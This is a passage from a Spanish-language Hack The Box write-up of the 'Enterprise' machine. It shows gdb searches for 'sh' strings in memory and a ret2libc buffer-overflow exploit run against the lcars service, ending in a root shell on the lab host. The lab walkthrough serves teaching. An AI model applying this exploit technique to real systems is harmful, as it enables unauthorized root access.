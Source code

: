 ```bash
$ 
[*] Closed connection to 10.10.10.61 port 32812
[*] Got EOF while sending in interactive
```

Pero tampoco... Guiándome por algunos post, algunos simplemente buscaban la cadena "`sh`" (haciendo referencia a la `/bin/sh`), intentemos buscar esa cadena:

```bash
(gdb) find 0xf7e4c060,+87654321,"sh"
0xf7f6ddd5
0xf7f6e7e1
0xf7f70a14
0xf7f72582
warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
4 patterns found.
```

Hay 4 coincidencias en memoria, tomemos la primera y remplacémosla por la dirección `/bin/sh` que teníamos:

```bash
❭ python3 exploit.py ./lcars REMOTE
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)
$ hostname -I
10.10.10.61 172.17.0.1 dead:beef::250:56ff:feb9:7ba 
$ hostname
enterprise.htb
$  
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112boom.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 90%;"/>

PERF3ct0000000000oooOOOOOOOOoooooooVoooo.............

Tenemos una `sh` en la máquina víctima aprovechándonos de un buffer overflow con el ataque **ret2libc** (: que belleza eh!

**(Probando con las 4 direcciones que encontramos relacionadas con `sh`, la única que da problemas es `0xf7f70a14`, de resto también obtenemos una Shell 😊)**

> [exploitBOF.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/enterprise/exploitBOF.py)
